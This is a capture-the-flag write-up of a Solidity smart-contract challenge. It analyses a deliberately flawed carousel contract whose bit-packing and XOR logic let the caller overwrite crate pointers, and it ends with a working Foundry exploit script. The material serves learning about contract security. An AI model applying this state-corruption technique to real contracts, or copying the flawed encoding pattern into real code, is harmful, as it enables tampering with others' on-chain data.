

## Challenge
### Description
Welcome, dear Anon, to the Magic Carousel, where creatures spin and twirl in a boundless spell. In this magical, infinite digital wheel, they loop and whirl with enchanting zeal.
Add a creature to join the fun, but heed the rule, or the game’s undone. If an animal joins the ride, take care when you check again, that same animal must be there!
Can you break the magic rule of the carousel?
### Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

contract MagicAnimalCarousel {
    uint16 constant public MAX_CAPACITY = type(uint16).max;
    uint256 constant ANIMAL_MASK = uint256(type(uint80).max) << 160 + 16;
    uint256 constant NEXT_ID_MASK = uint256(type(uint16).max) << 160;
    uint256 constant OWNER_MASK = uint256(type(uint160).max);

    uint256 public currentCrateId;
    mapping(uint256 crateId => uint256 animalInside) public carousel;

    error AnimalNameTooLong();
    error CrateNotInitialized();

    constructor() {
        carousel[0] ^= 1 << 160;
    }

    function setAnimalAndSpin(string calldata animal) external {
        uint256 encodedAnimal = encodeAnimalName(animal) >> 16;
        uint256 nextCrateId = (carousel[currentCrateId] & NEXT_ID_MASK) >> 160;

        require(encodedAnimal <= uint256(type(uint80).max), AnimalNameTooLong());
        carousel[nextCrateId] = (carousel[nextCrateId] & ~NEXT_ID_MASK) ^ (encodedAnimal << 160 + 16)
            | ((nextCrateId + 1) % MAX_CAPACITY) << 160 | uint160(msg.sender);

        currentCrateId = nextCrateId;
    }

    function changeAnimal(string calldata animal, uint256 crateId) external {
        uint256 crate = carousel[crateId];
        require(crate != 0, CrateNotInitialized());
        
        address owner = address(uint160(crate & OWNER_MASK));
        if (owner != address(0)) {
            require(msg.sender == owner);
        }
        uint256 encodedAnimal = encodeAnimalName(animal);
        if (encodedAnimal != 0) {
            // Replace animal
            carousel[crateId] =
                (encodedAnimal << 160) | (carousel[crateId] & NEXT_ID_MASK) | uint160(msg.sender); 
        } else {
            // If no animal specified keep same animal but clear owner slot
            carousel[crateId]= (carousel[crateId] & (ANIMAL_MASK | NEXT_ID_MASK));
        }
    }

    function encodeAnimalName(string calldata animalName) public pure returns (uint256) {
        require(bytes(animalName).length <= 12, AnimalNameTooLong());
        return uint256(bytes32(abi.encodePacked(animalName)) >> 160);
    }
}
```
## Background

---

`carousel` is a `mapping(uint256 => uint256)`, but in practice it packs three fields directly into a single `uint256`.
```plain text
| animal: 80 bits | nextCrateId: 16 bits | owner: 160 bits |
|  high 10 bytes   |       2 bytes        |  low 20 bytes   |
```
The masks match this layout. `OWNER_MASK` points to the low 160 bits, `NEXT_ID_MASK` to the 16 bits above that, and `ANIMAL_MASK` to the top 80 bits. In Solidity `<< 160 + 16` is computed as `<< (160 + 16)`, so `ANIMAL_MASK` is shifted left by 176 bits.

---

`encodeAnimalName` places a string of up to 12 bytes in the high bytes of a `bytes32` and shifts it right by 160 bits.
```solidity
return uint256(bytes32(abi.encodePacked(animalName)) >> 160);
```
The return value is therefore at most 12 bytes, i.e. 96 bits. The problem is that the animal name field is only 10 bytes, i.e. 80 bits, wide.
`setAnimalAndSpin` uses `encodeAnimalName(animal) >> 16` to discard the low 2 bytes. So even with a 12-byte input, only the first 10 bytes go into the animal name field.
`changeAnimal`, on the other hand, shifts `encodeAnimalName(animal)` left by 160 as is. The entire 12-byte value is shifted up, so the first 10 bytes go into the `animal` field and the trailing 2 bytes spill into the `nextCrateId` field.

---

When `setAnimalAndSpin` stores a new animal, it does not clear the existing animal field.
```solidity
(carousel[nextCrateId] & ~NEXT_ID_MASK) ^ (encodedAnimal << 160 + 16)
```
Here it clears only `NEXT_ID_MASK`. If the existing crate already has an animal value, that value remains and gets XORed with the new animal value. For an empty crate, `0 ^ x = x`, so it looks like a normal store, but for a non-empty crate the result can differ from the input value.
## Code analysis

---

First, the initial state:
```solidity
uint16 constant public MAX_CAPACITY = type(uint16).max;
uint256 constant ANIMAL_MASK = uint256(type(uint80).max) << 160 + 16;
uint256 constant NEXT_ID_MASK = uint256(type(uint16).max) << 160;
uint256 constant OWNER_MASK = uint256(type(uint160).max);

uint256 public currentCrateId;
mapping(uint256 crateId => uint256 animalInside) public carousel;

constructor() {
    carousel[0] ^= 1 << 160;
}
```
Right after deployment `currentCrateId` is 0. The constructor turns on only bit 160 of `carousel[0]`, so crate 0's `nextCrateId` becomes 1. So the first `setAnimalAndSpin` call places an animal in crate 1.

---

The `setAnimalAndSpin` flow:
```solidity
function setAnimalAndSpin(string calldata animal) external {
    uint256 encodedAnimal = encodeAnimalName(animal) >> 16;
    uint256 nextCrateId = (carousel[currentCrateId] & NEXT_ID_MASK) >> 160;

    require(encodedAnimal <= uint256(type(uint80).max), AnimalNameTooLong());
    carousel[nextCrateId] = (carousel[nextCrateId] & ~NEXT_ID_MASK) ^ (encodedAnimal << 160 + 16)
        | ((nextCrateId + 1) % MAX_CAPACITY) << 160 | uint160(msg.sender);

    currentCrateId = nextCrateId;
}
```
First it extracts only `NEXT_ID_MASK` from the current crate to get the next crate number. Then it stores the animal name, next pointer, and owner in that next crate.
This code assumes the crate about to be written is empty. `carousel[nextCrateId] & ~NEXT_ID_MASK` clears only the existing `nextCrateId` field and keeps the rest. It XORs the animal name onto that, so if you make it rewrite a crate that already holds an animal name, the stored result differs from the animal name you entered.
The goal is to make `setAnimalAndSpin` return to a crate that already has a value.

---

Next is `changeAnimal`.
```solidity
function changeAnimal(string calldata animal, uint256 crateId) external {
    uint256 crate = carousel[crateId];
    require(crate != 0, CrateNotInitialized());
    
    address owner = address(uint160(crate & OWNER_MASK));
    if (owner != address(0)) {
        require(msg.sender == owner);
    }
    uint256 encodedAnimal = encodeAnimalName(animal);
    if (encodedAnimal != 0) {
        carousel[crateId] =
            (encodedAnimal << 160) | (carousel[crateId] & NEXT_ID_MASK) | uint160(msg.sender); 
    } else {
        carousel[crateId]= (carousel[crateId] & (ANIMAL_MASK | NEXT_ID_MASK));
    }
}
```
If a crate has an owner, only the owner can call `changeAnimal`. But a crate we created with `setAnimalAndSpin` has our address as its owner, so we can modify it ourselves.
`changeAnimal` does not apply `>> 16` to `encodedAnimal`. If you pass a 12-byte string, the low 2 bytes of `encodedAnimal << 160` land in the `nextCrateId` position.
Because of `| (carousel[crateId] & NEXT_ID_MASK)`, the existing `nextCrateId` is ORed with the newly spilled 2 bytes. So it is hard to produce an exact small value, but a value with all bits set, like `0xffff`, can definitely be produced.
## Solution
The goal is to make `setAnimalAndSpin` return to the already-initialized crate 1. Crate 1 must still hold the previous animal value, and on the final call that value must be XORed with the new animal value.
Suppose we first call `setAnimalAndSpin("Dog")`. In the initial state crate 0's next pointer is 1, so this call initializes crate 1. After the call the state is roughly:
```plain text
currentCrateId = 1
carousel[1].animal = encode("Dog") >> 16
carousel[1].nextCrateId = 2
carousel[1].owner = attacker
```
Now crate 1's owner is our address, so we can call `changeAnimal`. Here we pass a 12-byte value so that the trailing 2 bytes land in the `nextCrateId` field.
```solidity
string(abi.encodePacked(hex"10000000000000000000ffff"))
```
This value is 12 bytes. The first 10 bytes, `0x10000000000000000000`, go into crate 1's animal field, and the trailing 2 bytes, `0xffff`, go into the `nextCrateId` field. Even ORed with the existing next value, `0xffff` stays `0xffff`.
So after `changeAnimal`, crate 1 looks like this:
```plain text
currentCrateId = 1
carousel[1].animal = 0x10000000000000000000
carousel[1].nextCrateId = 0xffff
carousel[1].owner = attacker
```
Next, add an arbitrary animal once more, as in `setAnimalAndSpin("Parrot")`. The current crate is 1, and we changed crate 1's next pointer to `0xffff`, so this call stores the animal in crate `0xffff`.
Crate `0xffff`'s next pointer is then:
$$
(0xffff + 1) \bmod 0xffff = 1
$$
So after the call, `currentCrateId` becomes `0xffff`, and crate `0xffff` points back to crate 1.
```plain text
currentCrateId = 0xffff
carousel[0xffff].nextCrateId = 1
```
The next `setAnimalAndSpin(animal)` call reads crate `0xffff`'s next pointer and rewrites crate 1, whose animal field still holds `0x10000000000000000000`.
So on the final call, crate 1's animal field becomes the encoding of `animal` XORed with the existing value.
$$
newAnimal = 10000000000000000000 \oplus (encodeAnimalName(animal) >> 16)
$$
This value is generally different from `encodeAnimalName(animal) >> 16`. So after the final call, the animal value stored in crate 1 differs from the value we just entered.
### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import "forge-std/Script.sol";

interface IMagicAnimalCarousel {
    function setAnimalAndSpin(string calldata animal) external;
    function changeAnimal(string calldata animal, uint256 crateId) external;
}

contract Sol33 is Script {
    function run() external {
        uint256 privateKey = vm.envUint("PRIVATE_KEY");
        IMagicAnimalCarousel target = IMagicAnimalCarousel(vm.envAddress("MAGIC_ANIMAL_CAROUSEL_INSTANCE"));

        vm.startBroadcast(privateKey);

        target.setAnimalAndSpin("Dog");
        target.changeAnimal(string(abi.encodePacked(hex"10000000000000000000ffff")), 1);
        target.setAnimalAndSpin("Parrot");
        target.setAnimalAndSpin("Cat");

        vm.stopBroadcast();
    }
}
```

